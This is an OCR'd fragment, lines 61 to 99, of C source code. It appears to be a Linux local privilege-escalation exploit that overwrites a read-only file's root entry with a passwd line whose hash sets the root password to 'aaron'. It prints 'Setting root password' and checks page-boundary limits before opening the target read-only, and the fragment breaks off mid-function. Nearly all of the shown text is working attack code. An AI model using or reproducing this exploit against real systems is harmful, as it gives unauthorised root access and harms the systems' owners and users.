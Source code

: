       61.   62.         char c;
    
      63.         while ((c = fgetc(f1)) != EOF)
    
      64.             fputc(c, f2);
    
      65.   66.         fclose(f1);
    
      67.         fclose(f2);
    
      68.   69.     loff_t offset = 4; // after the "root"
    
      70.     const char *const data = ":$1$aaron$pIwpJwMMcozsUxAtRa85w.:0:0:test:/root:/bin/sh\n"; // openssl passwd -1 -salt aaron aaron
    
      71.         printf("Setting root password to \"aaron\"...");
    
      72.     const size_t data_size = strlen(data);
    
      73.   74.     if (offset % PAGE_SIZE == 0) {
    
      75.         fprintf(stderr, "Sorry, cannot start writing at a page boundary\n");
    
      76.         return EXIT_FAILURE;
    
      77.     }
    
      78.   79.     const loff_t next_page = (offset | (PAGE_SIZE - 1)) + 1;
    
      80.     const loff_t end_offset = offset + (loff_t)data_size;
    
      81.     if (end_offset > next_page) {
    
      82.         fprintf(stderr, "Sorry, cannot write across a page boundary\n");
    
      83.         return EXIT_FAILURE;
    
      84.     }
    
      85.      //打开只读文件
    
      86.     /* open the input file and validate the specified offset */
    
      87.     const int fd = open(path, O_RDONLY); // yes, read-only! :-)
    
      88.     if (fd < 0) {
    
      89.         perror("open failed");
    
      90.         return EXIT_FAILURE;
    
      91.     }
    
      92.   93.     struct stat st;
    
      94.     if (fstat(fd, &st)) {
    
      95.         perror("stat failed");
    
      96.         return EXIT_FAILURE;
    
      97.     }
    
      98.   99.     if (offset > st.st_size) {
    
